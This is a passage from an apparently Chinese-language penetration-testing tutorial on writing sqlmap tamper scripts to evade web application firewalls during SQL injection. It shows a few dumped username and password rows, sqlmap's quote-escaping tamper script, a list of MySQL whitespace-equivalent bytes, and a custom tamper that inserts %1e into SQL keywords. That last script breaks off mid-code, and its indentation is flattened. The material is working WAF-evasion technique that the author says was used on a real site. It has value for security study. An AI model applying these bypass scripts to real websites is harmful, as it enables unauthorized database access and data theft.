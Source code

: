 ```
12,dhakkan,dumbo
14,admin4,admin4
```

#### 利用 tamper 绕过 WAF

在云时代网络中，很多部署网站的服务器都会提供 WAF（Web 防火墙）服务。在未部署的情况下，云厂商如果检测到 Web 攻击请求，可能会发短信通知你开启 WAF 服务。之前我在一次渗透测试工作中就是如此：原本未部署 WAF 的网站，在 SQL 注入的过程中，突然就开启 WAF 拦截了。

tamper 正是对 sqlmap 进行扩展的一系列脚本，可在原生 payload 的基础上做进一步的处理以绕过 WAF 拦截。sqlmap 里有个 tamper 目录，里面放着很多脚本，比如编码、字符替换、换行符插入。

我们先来看下 sqlmap 自带的一个最简单的，用于转义单引号的 tamper 脚本：

```
"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL
def dependencies():
pass
def tamper(payload, **kwargs):
"""
    Slash escape single and double quotes (e.g. ' -> \')
    >>> tamper('1" AND SLEEP(5)#')
    '1\\\\" AND SLEEP(5)#'
    """
return payload.replace("'", "\\'").replace('"', '\\"')
```

它主要由 3 个部分组成。

-   **priority**：代表优先级，当使用多个脚本时可定义执行顺序。
    
-   dependencies：对依赖环境的声明，比如输出日志，可不写。
    
-   tamper：主函数。payload 代表 sqlmap 自带的测试语句；kwargs 代表请求参数，可以用来修改 http 头信息。**tamper 主要是对原生 payload 做一些替换处理，这是绕过 WAF 的关键点**。
    

下面以某知名网站的 SQL 注入为例。常规的注入语句都被拦截了，后来在 fuzz 测试 WAF 时，发现使用一些特殊符号可以绕过 WAF（换行符也经常被用来绕过），而 MySQL 中有些特殊字符又相当于空格：

> %01, %02, %03, %04, %05, %06, %07, %08, %09, %0a, %0b, %0c, %0d, %0e, %0f, %10, %11, %12, %13, %14, %15, %16, %17, %18, %19, %1a, %1b, %1c, %1d, %1e, %1f, %20

我们尝试在每个 SQL 关键词中随机加个%1e。测试确认可绕过 WAF 后，接下来就是写 tamper 让 sqlmap 实现自动化绕过 WAF。

```
import re
from lib.core.common import randomRange
from lib.core.data import kb  
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def tamper(payload, **kwargs):
    result = payload
if payload:
for match in re.finditer(r"\b[A-Za-z_]+\b", payload):
            word = match.group()
if len(word) < 2:
continue
if word.upper() in kb.keywords:  
                str = word[0]
for i in xrange(1, len(word) - 1):
                    str += "%s%s" % ("%1e" if randomRange(0, 1) else "", word[i])
                str += word[-1]
if "%1e" not in str:
```